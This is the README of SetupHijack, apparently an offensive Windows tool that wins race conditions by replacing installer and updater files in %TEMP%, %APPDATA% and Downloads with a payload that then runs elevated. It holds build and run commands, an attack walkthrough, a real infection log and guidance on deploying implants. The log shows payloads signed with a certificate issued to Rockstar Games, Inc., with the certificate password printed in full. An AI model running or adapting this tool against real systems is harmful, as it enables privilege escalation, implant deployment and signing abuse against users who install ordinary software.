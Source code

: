 # SetupHijack

---

## Overview

**SetupHijack** is a security research tool that exploits race conditions and insecure file handling in Windows installer and update processes. It targets scenarios where privileged installers or updaters drop files in `%TEMP%` or other world-writable locations, allowing an attacker to replace these files before they are executed with elevated privileges.

- Does **not** require elevated permissions to run.
- Does **not** use file system notifications (polls for changes instead).
- Exploits weaknesses in Authenticode code signing and installer trust models.
- Can infect `.exe`, `.msi`, and batch files (e.g., `sysinfo`, `netstat`, `ipconfig`).
- Designed for red team, penetration testing, and security research use only.

The intended use of this tool is to run in the background on a compromised user account with privileges, in order to elevate another process by hijacking installer/updater file drops.

## How It Works

1. **SetupHijack** continuously scans `%TEMP%` (and subdirectories) for new or modified installer files.
2. When a target file is detected, it is replaced with a user-supplied payload (EXE, MSI, or BAT), optionally preserving the original as a `.bak` file.
3. If the privileged process executes the replaced file before integrity checks, the payload runs with elevated rights (e.g., SYSTEM or Administrator).
4. The tool logs all actions and maintains a skiplist to avoid re-infecting the same files.

## Code Signing Note

This project uses a hacked code-signing process with [SignToolEx.exe and SignToolExHook.dll](https://github.com/hackerhouse-opensource/SignToolEx) to sign payloads and installers. Using valid code-signing certificates and an Authenticode timestamp will increase your success rate when bypassing installer and OS trust checks.

---

## Usage

### Build

```sh
nmake PAYLOAD=c:\Path\to\your\payload.exe
```

### Run (Options)

```sh
SetupHijack.exe                  # Scan %TEMP%, %APPDATA%, and %USERPROFILE%\Downloads (default)
SetupHijack.exe -notemp          # Disable scanning %TEMP%
SetupHijack.exe -noappdata       # Disable scanning %APPDATA%
SetupHijack.exe -nodownloads     # Disable scanning %USERPROFILE%\Downloads
SetupHijack.exe clean            # Clean mode (restores .bak backups in all enabled locations)
SetupHijack.exe verbose          # Verbose mode (log all actions)
SetupHijack.exe <payload.exe>    # Use specified payload for .exe (unless argument is a recognized option)
```

- Run **SetupHijack.exe** before or during a privileged install/update process.
- By default, the tool scans all common drop locations: %TEMP%, %APPDATA%, and %USERPROFILE%\Downloads.
- You can disable any location with the `-notemp`, `-noappdata`, or `-nodownloads` flags.
- The `clean` flag restores backups in all enabled locations. The `verbose` flag logs all actions.
- For remote escalation, use with `shadow.exe` or similar tools on Terminal Services.

## Example Attack Flow

1. Build your payload and SetupHijack:
   ```sh
   nmake PAYLOAD=c:\Users\YourUser\Desktop\payload.exe
   ```
2. Start SetupHijack:
   ```sh
   SetupHijack.exe
   ```
3. Launch the target installer or update process as Administrator.
4. If the installer drops files in `%TEMP%` and executes them with elevated rights, your payload will be substituted and run.

## Example Output

Below is a real example of building and running SetupHijack, including code signing and infection output:

```
C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>nmake PAYLOAD="C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe"

Microsoft (R) Program Maintenance Utility Version 14.29.30159.0
Copyright (C) Microsoft Corporation.  All rights reserved.

        powershell -Command "(Get-Content SetupHijack.cpp) -replace '#define PAYLOAD_PATH L\".*\"', '#define PAYLOAD_PATH L\"%ESCAPED_PAYLOAD%\"' | Set-Content SetupHijack.cpp"
        cl /nologo /W4 /EHsc /DUNICODE /D_UNICODE /MT /O2 /c SetupHijack.cpp
SetupHijack.cpp
SetupHijack.cpp(318): warning C4189: 'hr2': local variable is initialized but not referenced
        taskkill /f /im SetupHijack.exe 2>nul
        powershell -Command "Start-Sleep -Milliseconds 500"
        link /nologo /SUBSYSTEM:CONSOLE /ENTRY:wmainCRTStartup /NODEFAULTLIB:MSVCRT /NODEFAULTLIB:MSVCPRT /OUT:SetupHijack.exe SetupHijack.obj kernel32.lib user32.lib shlwapi.lib Shell32.lib /MANIFEST /MANIFESTFILE:SetupHijack.exe.manifest
        copy /y install.wxs.template install.wxs
        1 file(s) copied.
        powershell -Command "(Get-Content install.wxs) -replace 'Source=\"PAYLOAD_PLACEHOLDER\"', 'Source=\"%ESCAPED_PAYLOAD%\"' | Set-Content install.wxs"
        wix build install.wxs -o install.msi
Generating install.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
Generating launch_payload.bat with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
        powershell -Command "(Get-Content install.wxs) -replace '(<File Id=\"RengeExeFile\" Source=\").*?(\" KeyPath=\"yes\"/>)', '`%ESCAPED_PAYLOAD%`' | Set-Content install.wxs"
        call sign_random.bat
Using CERT: [certs\rockstar1.pfx]
Using PASS: [C!EZxYUxVGPzQDj3]
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: SetupHijack.exe

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0
The following certificate was selected:
    Issued to: Rockstar Games, Inc.
    Issued by: Entrust Code Signing CA - OVCS1
    Expires:   Thu Mar 20 17:16:13 3000
    SHA1 hash: C9793F4A2E629D88F2213622D7A0C170D9C7CBC6

Done Adding Additional Store
Successfully signed: install.msi

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0

C:\Users\Fantastic\Desktop\Sayuri\InfectElevatedSetups>SetupHijack.exe
[2025-09-24 15:20:46] [SetupHijack] Using payload: C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe
[2025-09-24 15:20:46] [SetupHijack] If infecting .msi, will use: install.msi
[2025-09-24 15:20:46] [SetupHijack] Polling enabled locations recursively for .exe, .msi, .bat:
[2025-09-24 15:20:46]   - C:\Users\FANTAS~1\AppData\Local\Temp
[2025-09-24 15:20:46]   - C:\Users\Fantastic\AppData\Roaming
[2025-09-24 15:20:46]   - C:\Users\Fantastic\Downloads
[2025-09-24 15:20:46] [SetupHijack] Entering infection loop.
[2025-09-24 15:20:59] [SetupHijack] Total infections this session: 0
[2025-09-24 15:21:13] [SetupHijack] Replaced C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat with payload install.bat, backup: C:\Users\FANTAS~1\AppData\Local\Temp\installcmd.bat.bak
[2025-09-24 15:21:13] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:22] [SetupHijack] Replaced C:\Users\Fantastic\Downloads\installcmd.msi with payload install.msi, backup: C:\Users\Fantastic\Downloads\installcmd.msi.bak
[2025-09-24 15:21:26] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:26] [SetupHijack] Total infections this session: 2
[2025-09-24 15:21:41] [SetupHijack] Replaced C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe with payload C:\USers\Fantastic\Desktop\DEMO\Renge_x64.exe, backup: C:\Users\Fantastic\AppData\Roaming\InsecureApp\setup.exe.bak
[2025-09-24 15:21:41] [SetupHijack] New infections this run: 1
[2025-09-24 15:21:53] [SetupHijack] Total infections this session: 3
```

## Example Use to Deploy An Implant

Below is a screenshot showing SetupHijack in action, deploying an implant during a privileged installer run:

![Example Use to Deploy An Implant](Example.png)

## Security Notes

- This tool is for authorized testing and research only.
- Exploiting these weaknesses can result in full SYSTEM compromise when user in Administrator group.
- Installers may use hash/signature checks that will block this attack, but many still do not.
- Always use in a controlled environment.
- If you discover a CVE or get bounty with this tool, credit us!

Targeting a single directory (such as `%TEMP%`) at a time can increase the likelihood of winning any time-of-creation/time-of-use (TOCTOU) race condition, as it allows for faster polling and less contention. For maximum reliability, run multiple instances of SetupHijack, each focused on a single directory. For optimum results, ensure your payload (the EXE you want to run elevated) includes a manifest requesting elevation (requireAdministrator), and is signed with a valid code-signing certificate that includes an Authenticode timestamp. This increases the chance of bypassing installer and OS trust checks on installers.

## Findings

- Zoom 6.6.1 (15968) uses %AppData% for .exe allowing lateral process movement and
  process spoofing (send elevation request from Zoom update).

- msiexec.exe when running install.msi executes under NT AUTHORITY\SYSTEM

- Wireshark update exe comes through %Temp%

- Visual Studio code-signing checks on updates prevent exploitation, (lightly tested .VSIX)

---

These files are available under an Attribution-NonCommercial-NoDerivatives 4.0 International license.
